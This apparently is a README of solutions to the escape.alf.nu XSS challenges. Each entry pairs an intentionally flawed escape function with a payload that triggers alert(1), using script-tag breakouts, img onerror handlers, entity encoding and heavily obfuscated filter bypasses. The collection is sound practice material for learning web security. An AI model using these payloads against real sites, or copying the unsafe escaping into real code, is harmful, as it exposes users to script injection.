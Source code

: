 # escape.alf.nu

> alert(1) to win
 
## Challenges
- [Warmup](#warmup)
- [Adobe](#adobe)
- [JSON](#json)
- [Markdown](#markdown)
- [DOM](#dom)
- [Skandia](#skandia)
- [JSON2](#json2)
- [Well](#well)
- [No](#no)
- [K'Z'K](#kzk)

## Warmup

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).


```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

- Input

```
",alert(1),"
```

- Output

```
<script>console.log("",alert(1),"");</script>
```

## Adobe

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Input

```
\");alert(1)//
```

## JSON

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Input

```
</script><script>alert(1)//
```

## Markdown

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Input

```
[[x|http://onerror=javascript:alert(1)//]]
```

## DOM

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```

- Solution

```
Comment#--><img src onerror=alert(1)
```

- HTML source

```
<!----><img src onerror=alert(1)-->
```

## Skandia

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

## JSON2

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```

## Well

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  http://www.avlidienbrunn.se/xsschallenge/

  s = s.replace(/[\r\n\u2028\u2029\\;,()\[\]<]/g, '');
  return "<script> var email = '" + s + "'; <\/script>";
}
```

- Solution

```
'+Function`a${`alert${Function`a${`return fromCharCode`}{fromCharCode}``${String}``40`}1${Function`a${`return fromCharCode`}{fromCharCode}``${String}``41`}`}```+'
```


## No

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
// submitted by Stephen Leppik

function escape(s) {
    s = s.replace(/[()`<]/g, ''); // no function calls

    return '<script>\n' +
           'var string = "' + s + '";\n' +
           'console.log(string);\n' +
           '</script>';
}
```

- Solution

```
";string=1;console.log=alert//
```

- Output

```
<script>
var string = "";string=1;console.log=alert//";
console.log(string);
</script>
```

## K'Z'K

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).


```
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels in honor of K'Z'K the Destroyer
    s = s.replace(/[aeiouy]/gi, '');
    return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
"+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"
```

- Output

```
<script>console.log(""+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"");</script>
```
